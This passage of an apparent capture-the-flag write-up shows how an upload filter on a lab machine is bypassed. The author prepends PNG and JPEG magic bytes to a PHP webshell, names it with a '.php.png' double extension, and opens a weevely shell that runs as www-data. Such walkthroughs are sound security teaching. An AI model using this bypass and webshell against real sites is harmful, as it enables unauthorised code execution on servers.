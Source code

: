 ```
What are you trying to do there?
```

But changing the Content-Type from `application/x-php` to `application/x-php`
didn't change anything.

The name `Magic` is maybe because there is a magic bytes check and this message
is displayed when content type, extension and magic byte don't match.

Let's check the signature of jpeg and png:

```
$ xxd -l 12 ~/Pictures/hacker_logo.jpg     
00000000: ffd8 ffe0 0010 4a46 4946 0001            ......JFIF..
$ xxd -l 8 ~/Pictures/rawsec/logo5_50x40.png 
00000000: 8950 4e47 0d0a 1a0a                      .PNG....
```

We can also check
[the list on Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
because jpeg supports 2 other signatures.

We can store the signatures in files:

```
$ echo -n "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a" > png_signature
$ echo -n "\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01" > jpg_signature
```

Then let's try to prepend the PNG signature to the webshell.

```
$ cat png_signature agentcyfun.php > agent_png.png
$ cat jpg_signature agentcyfun.php > agent_jpg.jpg
```

Let's upload again, this time we are not spotted. The image is
successfully uploaded to http://10.10.10.185/images/uploads/agent_png.png but
as it is served as a png, the PHP is not interpreted.
Let's see if we send a png extension and a php Content-Type.

This is accepted too. But it is still served as a png. I'll try to put a php
extension but I think we will be caught by the extension whitelist.
Indeed we were spotted.

So let's try the double extension (`.png.php`) -> spotted.
Let's try a null byte injection (`.php\00.png`) even if I don't believe it will works.

It tells me `00.png` was uploaded (http://10.10.10.185/images/uploads/00.png)
but it's served as png. Let's see if `agent_png.php` was created
(http://10.10.10.185/images/uploads/agent_png.php): no.

What if we try the double extension without null byte but in the other way (`.php.png`).
It seems http://10.10.10.185/images/uploads/agent_png.php.png is interpreted as PHP!

## Webshell

```
$ weevely terminal http://10.10.10.185/images/uploads/agent_png.php.png cyfun

[+] weevely 4.0.1

[+] Target:     10.10.10.185
[+] Session:    /home/cyfun/.weevely/sessions/10.10.10.185/agent_png.php_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```